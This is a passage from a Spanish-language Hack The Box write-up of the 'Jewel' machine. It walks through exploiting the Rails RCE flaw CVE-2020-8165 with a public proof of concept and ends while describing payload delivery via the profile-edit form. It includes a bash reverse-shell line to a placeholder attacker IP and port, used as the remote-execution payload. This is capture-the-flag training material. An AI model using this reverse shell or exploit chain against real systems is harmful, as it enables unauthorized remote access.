![Jewel 08]({{ site.baseurl }}/images/jewelhtb08.png)

Entre las diferentes vulnerabilidades existentes nos vamos a quedar con la CVE-2020-8165 que nos proporciona un Remote Code Execution (RCE):

![Jewel 09]({{ site.baseurl }}/images/jewelhtb09.png)

Si buscamos sobre esta vulnerabilidad encontraremos un [GitHub](https://github.com/masahiro331/CVE-2020-8165) donde se explota, por lo que vamos a seguirlo. 

Del código vamos a modificar un par de cosas del Gemfile. Una será la versión de Ruby, que indicaremos la versión que nosotros tenemos instalado (se puede ver con “ruby -v”). Y otra será completar la línea de gem ‘sqlite3’ para evitar errores al cargar esta herramienta.

![Jewel 10]({{ site.baseurl }}/images/jewelhtb10.png)

Ahora continuamos con las instrucciones del GitHub. Primero con:

bundle install --path vendor/bundle

Si tenemos problemas con esta instrucción quizás debamos instalar la versión de bundler correspondiente, que se haría de la siguiente manera:
    
    sudo gem install bundler:1.17.3

Y también algunos elementos como libsqlite3-dev:

    sudo apt install libsqlite3-dev

Si todo sale bien deberemos obtener un resultado final como este:

![Jewel 11]({{ site.baseurl }}/images/jewelhtb11.png)

Y seguimos con la siguiente instrucción:

bundle exec rails db:migrate

![Jewel 12]({{ site.baseurl }}/images/jewelhtb12.png)

Ahora pasamos a la sección del exploit y arrancamos la consola con:

    bundle exec rails console

Y seguimos con el resto de instrucciones modificando el código que vamos a ejecutar remotamente por una shell reversa de la siguiente forma:

    code = '`/bin/bash -c “bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1”`'

Esto nos devolverá el payload que debemos utilizar:

![Jewel 13]({{ site.baseurl }}/images/jewelhtb13.png)

Para hacer uso de ello primero tenemos que ir a la página web (jewel.htb:8080) y registrarnos. Una vez registrados nos logueamos con el email y la contraseña que acabamos de crear. Una vez dentro nos vamos a nuestro perfil (Profile) y le damos al botón “Profile” para editar nuestros datos de usuario. Como podemos observar en el código de la web la edición se realiza a través de un método POST:

![Jewel 14]({{ site.baseurl }}/images/jewelhtb14.png)
